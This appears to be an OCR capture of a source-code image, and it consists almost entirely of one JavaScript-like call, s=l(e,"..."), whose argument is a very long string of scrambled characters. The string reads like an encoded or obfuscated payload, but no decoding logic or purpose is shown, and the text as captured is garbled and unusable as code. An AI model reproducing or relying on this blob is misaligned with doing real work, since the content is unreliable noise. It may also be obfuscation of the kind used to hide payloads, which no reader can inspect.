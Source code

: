 s=l(e,"/fZWB+hFi3zGe&#V&&ZiGe+.#hi&<ezMWBehF+SZ3!fVG++i#3iBGVzVfee3+iV3Fef&GZWB&WFF##ihfBziWee#FZ<<ziWfGeBz#+FxwB3iZzzB+G#VhGfBz3Bo&GhZViiifeG(BZehFBfe3hBpGe+Q#BFhZfz+BVeeFZAhieZVGiBFGfWze#hFVG3WZZGhBG#<Fiae3V+3#ei<fBziWe&=+BWFi#WeGBBi&eh#f33&BFeBhzV#iBZFG-WVz3WZehhB#Vi3fVG6Bi&FhiV#3fZ3Ge+B#ZzZBpei+eV?iZ2WGiBF&e+Gff3iWBeBhBVLFhft3eW.eB+h&hiiZGhGZz&ii<Vz3hZTGBBi&z+ef+zVBf&ZBP##i#ZfzhWieehHVBizZ3GyBB&ihz#ez+WV&fhZeei3f5z+BW&0hWVZ3#fizeB0&Z+iM#zZW+z#+B#hFhV#GWB+&Eh3Vh3hVVGBBW&FheY3FUWFeG+&&#F&*B3iZeG#BZVY3i&W3G+C#WFZ 33BZMGVBh#fhekb3BZhzZ+BVWiFffzBWz&h+#MFiBfizeW#eziBfZzFZeei.Ve#FeZB+VBVGeh3Vi33feG&+Z&BFWfFi#Z&GBBi&eh#VZz-BiiWhGHY3WZZG3BB&LhVVh3ZfeGTBB&h+7RF3Gy&&BhFVGizf&zZWVei+eVyiZ{iGqB#&ehZRizfZGezhh#ZF3=i3eW eZB3VQ3(fezzBi&OhBViizfWe3+2#eFefezif#&fhW?BF#f+zBWiee&B++#ziif+BF&3hVpm3+ZiGe+,#BFi#eRVFBe3+eV-iBfizeBm&BziV#3VZBGiBeZ&#eFz:hFeZeGZW3&Wi#f&zVWWG#hzi#FhGBBi&eh#xVzVBW&Whze+B##ZG3We#hWfV#3BWWGG+e&&iBfh3eW&eZhZV+iVfBGfBG33hZnZ3B#zzZBh#3FBlVzF13e&h+GZhWfBzfB+eih&^iFZZ3GBB##fWhr&3BZ3ezfz#FFiRi3VBZ3ZhB#eiiZfFhZF&ih+ 3ieWfeeWh#&FifZz+Zze++6#BFi}zGFBh&#FW5+34Z3GhBZ&VhiVe3MZZz#+:V3Fe##z#Bfe&hBVhiZZfziWe&OhZ&V3iWhGz+zVfFFeFiFWi&fhZ#ziBf=zBWiez+UVi3hZBzFBi&&h#fe3BZiGeB#V3F&ZFzBBz&#hBPF3cfVi3fZzhBZ&4hG4U3ZZiGWBz&eF+ph33WBeiiZWfziWe&yhZrWzWWFeF+#G3BZ&hGBW#&ihGpXB&f+zeTzzh+G&VFVVZeUBfeZhi&GzZZze++{#BFiwzizWe&VfV&#ieWBFSBZ&zhiVe3qZZzB+e#BF#fI3#W&eB+i#eF#VzGzB&&3F!5ZF+WZeWBV#Bi+.+3iZeer+B#iFeZB#BWz&ZhqVBiifzeW+3#BF&fF3hWiGe+:#BFhZf3&Wz&#FB &Fz=iz3BGeWF+ffzGfBGz+>#LFB?ifYz3WBG&##iGfBziWee#FWsz3^ZFez+VVfFef+zZZ#eB+B#iFeFWNe33W#hZfZiifeGHBZ&BF#fi+FZe&f+izFiFf#zzW#&QhWGW3>Z3hVBB#zZGYv+WWFeF+>VeFef&3#W+eB+i#eF#-rG3Bi#FhhV&ieZ4GBBh#hFBfBz*Z#eG+B#iFeO#3&BU#fheV&zB&V3#BeVBh#;W3BZiGeB##hhZY#zGWBei+e##FWZzGhBz&ehVGVFeW+FeB##GFBti3eZ#zi+VVWFFfeeW+W&+FhfWi#WWGBBi&eh#VzGBBZ&F+eVihzfie_Wm&&he>&3yWfehBi#Fh#oi3BZiGeB#eGiBZZzhBh&&hWVZ3efizeBT&Z++}#3eW+FGhW#GFeeGiWWe&z+#V#3+fGhG+Z&iF3ff3BW+G+Bi&eFamB3iZeeb+B#z3ef4zBWiezB#VezB&VFGWW#BF&p#+FZe&BhFVhiifJGFBCe#hEVV3WWBhVBh#hFGCi3iZGiBB##BFB>i3e3ZW&ee+fiZZZziWe&>hZVzzFWfGhWZ##Fhf%iZBWG+W&#fF#fizBWiee+#&z3zZ&eFBe#3iW>Z3#ZiGe+R#ZhBf&GFB3&z+WVi3VZVz#Bi&BhiVei#pGew++#BiefFGWWZ#^+i#eiDfZG&Bf#Ghi{#zZZieG+B#WB&&hhz{h3BZFef+B#WFV{ezhWheGhWVBizBhdfheJE3BZheFhFVGiGZZF&1h3zhGVe3+ZhFe+F&iF&ah3iWGi3+&#iiG&zF?_h3iWfeF+G#&FzBz&iiseihfVBiife&#FFKB3iZeZheW+z#fFfqFzOe#h#VBiifez#WG#oiFfFFGWB&Z+BVFiGfBzBB3eziBV_iBfizzWF&VFBfZ+WZ&eB+G#iWFZZz7BhiFhGYf3ZZGG7BZ#FheVVBVWzes+V#FWWVBzzW#&fBzVXiZ&W3&l#e#hhVBiifeZWGiBz&+h#VGZzef+T#BFiHz3FBt&ihBVZi3fizeBS&Z+BHZzZW+Gz+B#yFBKi3zfG&GhVVVhzfeGVW#&3hBViief#zZ+_Vi+ef+zGBB&F+hV3FefYzBWhGehBkZ3wL&eZ+G#BF+se3zZe&W+eVhi3K#zWWBei+ehWV3Fzz#Bz&BhiVei#